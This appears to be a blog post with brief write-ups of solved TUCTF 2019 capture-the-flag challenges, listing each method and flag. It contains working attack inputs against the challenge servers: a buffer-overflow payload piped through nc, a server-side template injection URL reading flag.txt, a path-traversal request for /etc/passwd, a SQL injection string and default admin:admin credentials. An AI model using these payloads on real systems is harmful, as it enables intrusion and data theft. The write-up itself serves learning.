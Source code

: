```yaml
---
layout: post
title:  "TUCTF 2019"
excerpt: CTF competition
tags: [ctf, challenges]
---
```



[https://tuctf.com/](https://tuctf.com/)
<br>
## completed challenges
**welcome**<br>
> welcome
![Alt text](../ctfs/tuctf2019/welcome.png)<br>
> just needed to '.validate' on discord
<pre>TUCTF{W3lc0m3_70_TUCTF._H4v3_fun}</pre><br>

**misc**<br>
misc - red yarn
strings DEBUG.COM | grep TUCTF
TUCTF{D0NT_F0RG3T_TH3_B4S1CS!}

misc - super secret
binwalk -e document.odt
cat _document.odt.extracted/Basic/Standard/flag.xml
TUCTF{ST0P_TRUST1NG_M4CR0S_FR0M_4N_UNKN0WN_S0URC3}

misc - onions
opened with 7zip 
several layers deep and found flag
TUCTF{F1L3S4R3L1K30N10NSTH3YH4V3L4Y3RS}
**pwn**<br>
pwn - runme
strings runme | grep TUCTF
TUCTF{7h4nk5_f0r_c0mp371n6._H4v3_fun,_4nd_600d_luck}

pwn - thefirst
objdump -d ./thefirst
	080491f6 <printFlag>
python -c 'print "AAAAAAAAAAAABBBBCCCCDDDD"+ "\xf6\x91\x04\x08"' | nc chal.tuctf.com 30508
TUCTF{0n3_d0wn..._50_m4ny_70_60}
**crypto**<br>
crypto - common
https://medium.com/bugbountywriteup/rsa-attacks-common-modulus-7bdb34f331a5
TUCTF{Y0U_SH0ULDNT_R3US3_TH3_M0DULUS}

crypto - sonic
rot-cipher
TUCTF{W04H_DUD3_S0_F4ST_S0N1C_4PPR0V3S}

crypto - warren 
TUCTF{th4nks_f0r_d1n1ng_4641n_4t_th3_W4rr3n_buff3t}
**mega**<br>
mega - coffee
BREW /teapot
HTCPCP/1.0 418 I'm a teapot. Go to /broken.zip
https://tools.ietf.org/html/rfc2324
TUCTF{d0_y0u_cr4v3_th3_418}

mega - broken
strings broken.img | grep TUCTF
TUCTF{D1S4ST3R_R3C0V3RY}
**reversing**<br>
reversing - faker
gdb -q ./faker
	jump thisone
TUCTF{7h3r35_4lw4y5_m0r3_70_4_b1n4ry_7h4n_m3375_7h3_d3bu663r}
**web**<br>
web - open door
source code found flag
TUCTF{f1r5t_fl46_345135t_fl46} 

web - test test test
looked in imgs directory
todo.txt and flag.php files
pause requests on burp when selecting flag.php to reveal flag
TUCTF{d0nt_l34v3_y0ur_d1r3ct0ry_h4n61n6}
 
web - router where art thou
0.html - started off here with a form
1.html - tried this file and sonicwall login revealed
2.html - tried this file and palo login revealed
	admin:admin worked
TUCTF{y0u_f0und_th3_fun_r0ut3r_d3f4ult5}

web - and now for something completely different
found [SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#template-format)
http://chal.tuctf.com:30007/welcome/%7B%7B%20''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read()%20%7D%7D
TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465}

web - cute animals
lfi found on portal.php
/./././././././././././etc/passwd
TUCTF{m0r3_cut3_4n1m415_c4n_b3_f0und_4t_https://bit.ly/1HU2m5Q}

web - robots
/robots.txt but need
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
TUCTF{463nt_6006l3_r3p0rt1n6_4_r0b0t}

web - login to access
sql injection revealed actual login login.html 
' or '1' = '1  
but login.php.bak file was found to reveal flag
TUCTF{b4ckup5_0f_php?_1t5_m0r3_c0mm0n_th4n_y0u_th1nk} 
